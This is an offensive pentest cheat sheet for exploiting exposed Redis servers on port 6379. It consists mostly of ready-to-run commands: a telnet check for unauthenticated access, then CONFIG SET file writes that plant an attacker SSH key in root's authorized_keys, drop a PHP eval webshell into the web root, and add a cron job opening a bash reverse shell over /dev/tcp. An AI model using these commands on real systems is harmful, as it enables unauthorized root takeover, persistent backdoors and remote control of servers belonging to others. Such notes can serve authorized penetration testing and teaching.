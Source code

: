 # 6379 - Redis

<details>

<summary>Introduction</summary>

Redis 是一个开源的内存键值存储数据库，也被称为数据结构服务器。它支持多种数据结构，如字符串、哈希表、列表、集合和有序集合等，提供了丰富的操作命令来操作这些数据结构。Redis 的特点包括高性能、持久化、复制、集群和支持丰富的数据类型等。由于其快速的读写速度和丰富的功能，Redis 被广泛应用于缓存、会话存储、消息队列、排行榜和实时统计等场景中。它也被用作分布式锁和发布/订阅系统的解决方案。

</details>

<table><thead><tr><th width="178">Name</th><th>Redis</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>6379</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>File Write (GetShell)</li></ul></td></tr></tbody></table>

## Unauthorized Access

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

{% code title="Validation" %}
```
1) telnet $HOST $PORT
2) Enter "INFO"
```
{% endcode %}

If the target host returns Redis-related information, it indicates that unauthorized access is allowed.

## Write File

{% hint style="info" %}
Writing files may affect the server normal operation. Prioritize writing the SSH public key.
{% endhint %}

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

```bash
# (1) SSH public key

ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/id_rsa.pub
cat /tmp/id_rsa.pub | redis-cli -h $HOST -p $PORT -x set crackit
rm /tmp/id_rsa.pub

redis-cli -h $HOST -p $PORT

# In redis CLI
CONFIG SET DIR /root/.ssh/
CONFIG SET DBFILENAME "authorized_keys"
SAVE

ssh -i ~/.ssh/id_rsa root@HOST
redis-cli -h $HOST -p $PORT

# (2) WebShell
CONFIG SET DIR /var/www/html
CONFIG SET DBFILENAME exec.php
SET crackit "\n\n\n\n<?php @eval($_REQUEST['exec']);?>\n\n\n\n"
SAVE

# (3) crontab
CONFIG SET DIR /etc/cron.d
CONFIG SET DBFILENAME reverse_shell
SET crackit "\n\n\n\n* * * * * root bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
SAVE
```

## Graphical Tool

[Another Redis Desktop Manager](https://goanother.com/cn/)

